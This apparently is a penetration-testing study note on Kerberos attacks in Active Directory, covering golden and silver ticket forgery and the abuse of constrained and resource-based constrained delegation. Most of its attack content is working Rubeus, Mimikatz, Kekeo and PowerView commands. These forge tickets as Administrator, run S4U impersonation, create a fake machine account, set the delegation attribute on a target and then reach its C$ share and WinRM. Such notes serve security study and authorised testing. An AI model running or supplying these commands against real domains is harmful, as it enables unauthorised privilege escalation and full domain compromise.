

# 06 — Kerberos, Tickets and Delegation

> [!IMPORTANT]
> Kerberos delegation allows a service to impersonate a user when accessing downstream services. Misconfigured delegation settings (Unconstrained, Constrained, or Resource-Based Constrained Delegation) are primary targets for domain privilege escalation.

---

## Table of Contents

- [Golden Ticket vs. Silver Ticket Comparison](#golden-ticket-vs-silver-ticket-comparison)
- [Golden Ticket Creation (Rubeus & Mimikatz)](#golden-ticket-creation-rubeus--mimikatz)
- [Silver Ticket Forgery](#silver-ticket-forgery)
- [Kerberos Delegation Overview](#kerberos-delegation-overview)
- [S4U Constrained Delegation Flow Diagram](#s4u-constrained-delegation-flow-diagram)
- [Constrained Delegation Exploitation (Rubeus & Kekeo)](#constrained-delegation-exploitation-rubeus--kekeo)
- [Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation-rbcd)

---

## Golden Ticket vs. Silver Ticket Comparison

| Property | Golden Ticket (TGT) | Silver Ticket (TGS) |
| :--- | :--- | :--- |
| **Target Object** | Entire Domain (TGT issued by KDC) | Specific Service / Computer (TGS) |
| **Required Key Material** | `krbtgt` account NTLM hash / AES256 key | Target Service Account NTLM hash / AES256 key |
| **KDC Contact Required?** | No (Presents forged TGT to KDC to request TGS) | No (Directly presents forged TGS to target service) |
| **Scope & Persistence** | Domain Admin access across all domain hosts | Privileged access to specific host/service only |
| **Detection Visibility** | High (DCSync required to dump `krbtgt`) | Low (Bypasses DC authentication logs) |

---

## Golden Ticket Creation (Rubeus & Mimikatz)

Golden Tickets forge a TGT signed with the `krbtgt` password key.

```cmd
# Rubeus Golden Ticket generation & injection
Rubeus.exe golden /aes256:<KRBTGT_AES256> /sid:<DOMAIN_SID> /ldap /user:Administrator /printcmd

# Mimikatz Golden Ticket generation & injection
mimikatz # kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes256:<KRBTGT_AES256> /ptt
```

> **Source:** handwritten pp. 31, 48.

---

## Silver Ticket Forgery

Silver Tickets forge a TGS for a specific Service Principal Name (SPN) using the service account's NTLM hash or AES256 key.

```cmd
# Rubeus Silver Ticket for HTTP service on target host
Rubeus.exe silver /service:http/<TARGET_FQDN> /aes256:<SERVICE_AES256> /sid:<DOMAIN_SID> /user:Administrator /domain:<DOMAIN> /ptt
```

> [!WARNING]
> **WMI Silver Ticket Requirement:** To execute commands remotely via WMI using a Silver Ticket, service tickets for **BOTH** `HOST` and `RPCSS` must be generated and imported.

```cmd
Rubeus.exe silver /service:host/<TARGET_FQDN> /aes256:<SERVICE_AES256> /sid:<DOMAIN_SID> /user:Administrator /domain:<DOMAIN> /ptt
Rubeus.exe silver /service:rpcss/<TARGET_FQDN> /aes256:<SERVICE_AES256> /sid:<DOMAIN_SID> /user:Administrator /domain:<DOMAIN> /ptt
```

> **Source:** handwritten pp. 32, 48.

---

## Kerberos Delegation Overview

- **Unconstrained Delegation (UD):** When a user authenticates to a service with UD enabled, the DC places a copy of the user's TGT inside the service ticket. The service extracts the TGT from LSASS and can impersonate the user anywhere.
- **Constrained Delegation (CD):** Restricts delegation to specific target SPNs (`msDS-AllowedToDelegateTo`). Allows protocol transition (`TRUSTED_TO_AUTH_FOR_DELEGATION`).
- **Resource-Based Constrained Delegation (RBCD):** Specifies delegation permissions on the target resource object itself (`msDS-AllowedToActOnBehalfOfOtherIdentity`).

> **Source:** handwritten p. 38.

---

## S4U Constrained Delegation Flow Diagram

Constrained delegation uses two Kerberos extensions: **S4U2self** (requests a service ticket to self on behalf of any user) and **S4U2proxy** (uses that ticket to request a service ticket to the allowed downstream service).



---

## Constrained Delegation Exploitation (Rubeus & Kekeo)

### 1. Enumerate Constrained Delegation Accounts
```powershell
# PowerView: Find accounts with TrustedToAuthForDelegation flag set
Get-NetUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

### 2. Execute S4U Attack via Rubeus
```cmd
# Obtain TGT and execute S4U2self + S4U2proxy in one command
Rubeus.exe s4u /user:<DELEGATED_USER> /aes256:<AES256_KEY> /impersonateuser:Administrator /msdsspn:cifs/<TARGET_FQDN> /ptt
```

### 3. Legacy Kekeo & Mimikatz Workflow
```text
# Step 1: Ask TGT for delegated service account
kekeo # tgt::ask /user:<DELEGATED_USER> /domain:<DOMAIN> /password:<PASSWORD>

# Step 2: Request S4U TGS impersonating Domain Admin
kekeo # tgs::s4u /tgt:<TGT_FILE> /user:Administrator /service:cifs/<TARGET_FQDN>

# Step 3: Pass-the-Ticket with Mimikatz
mimikatz # kerberos::ptt <TGS_TICKET_FILE>
```

```powershell
# Connect to target host via WinRM or Remote SMB
Enter-PSSession -ComputerName <TARGET_FQDN>
ls \\<TARGET_FQDN>\c$
```

> **Source:** handwritten pp. 39–41.

---

## Resource-Based Constrained Delegation (RBCD)

If an attacker holds `GenericWrite` or `GenericAll` over a computer object, they can configure RBCD on that computer object:

```powershell
# Step 1: Create a fake computer account (if machine account quota permits)
New-MachineAccount -MachineAccount 'FakeMachine$' -Password 'P@ss123!'

# Step 2: Set msDS-AllowedToActOnBehalfOfOtherIdentity on target computer
Set-DomainObject -Identity <TARGET_COMPUTER> -Set @{'msds-allowedtoactonbehalfofotheridentity'= <FAKE_MACHINE_SID_BYTES>}

# Step 3: Execute Rubeus S4U impersonating Domain Admin
Rubeus.exe s4u /user:FakeMachine$ /password:'P@ss123!' /impersonateuser:Administrator /msdsspn:cifs/<TARGET_COMPUTER> /ptt
```

> **Source:** handwritten pp. 41, 48.
